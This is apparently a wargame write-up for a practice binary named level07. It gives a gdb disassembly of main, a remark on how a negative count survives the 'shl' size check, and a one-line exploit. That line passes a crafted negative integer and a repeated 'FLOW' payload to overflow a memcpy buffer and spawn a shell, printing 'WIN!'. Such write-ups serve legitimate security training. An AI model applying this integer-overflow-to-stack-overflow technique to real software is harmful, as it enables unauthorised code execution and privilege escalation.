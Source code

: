 ```
$ gdb /levels/level07
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048414 <+0>:     push   %ebp
   0x08048415 <+1>:     mov    %esp,%ebp
   0x08048417 <+3>:     sub    $0x68,%esp
   0x0804841a <+6>:     and    $0xfffffff0,%esp
   0x0804841d <+9>:     mov    $0x0,%eax
   0x08048422 <+14>:    sub    %eax,%esp
   0x08048424 <+16>:    mov    0xc(%ebp),%eax
   0x08048427 <+19>:    add    $0x4,%eax
   0x0804842a <+22>:    mov    (%eax),%eax
   0x0804842c <+24>:    mov    %eax,(%esp)
   0x0804842f <+27>:    call   0x8048354 <atoi@plt>
   0x08048434 <+32>:    mov    %eax,-0xc(%ebp)
   0x08048437 <+35>:    cmpl   $0x9,-0xc(%ebp)
   0x0804843b <+39>:    jle    0x8048446 <main+50>
   0x0804843d <+41>:    movl   $0x1,-0x4c(%ebp)
   0x08048444 <+48>:    jmp    0x80484ad <main+153>
   0x08048446 <+50>:    mov    -0xc(%ebp),%eax
   0x08048449 <+53>:    shl    $0x2,%eax              <-here
   0x0804844c <+56>:    mov    %eax,0x8(%esp)
   0x08048450 <+60>:    mov    0xc(%ebp),%eax
   0x08048453 <+63>:    add    $0x8,%eax
   0x08048456 <+66>:    mov    (%eax),%eax
   0x08048458 <+68>:    mov    %eax,0x4(%esp)
   0x0804845c <+72>:    lea    -0x48(%ebp),%eax
   0x0804845f <+75>:    mov    %eax,(%esp)
   0x08048462 <+78>:    call   0x8048334 <memcpy@plt>
   0x08048467 <+83>:    cmpl   $0x574f4c46,-0xc(%ebp)
   0x0804846e <+90>:    jne    0x804849a <main+134>
   0x08048470 <+92>:    movl   $0x8048584,(%esp)
   0x08048477 <+99>:    call   0x8048344 <printf@plt>
   0x0804847c <+104>:   movl   $0x0,0x8(%esp)
   0x08048484 <+112>:   movl   $0x804858a,0x4(%esp)
   0x0804848c <+120>:   movl   $0x804858d,(%esp)
   0x08048493 <+127>:   call   0x8048324 <execl@plt>
   0x08048498 <+132>:   jmp    0x80484a6 <main+146>
   0x0804849a <+134>:   movl   $0x8048595,(%esp)
   0x080484a1 <+141>:   call   0x8048344 <printf@plt>
   0x080484a6 <+146>:   movl   $0x0,-0x4c(%ebp)
   0x080484ad <+153>:   mov    -0x4c(%ebp),%eax
   0x080484b0 <+156>:   leave
   0x080484b1 <+157>:   ret
End of assembler dump.
```

If we use `SHL` with numbers of a small enough negative value, those values become positive.

```
$ /levels/level07 -2147483616 `python -c 'print "\x46\x4c\x4f\x57"*100'`
WIN!
```
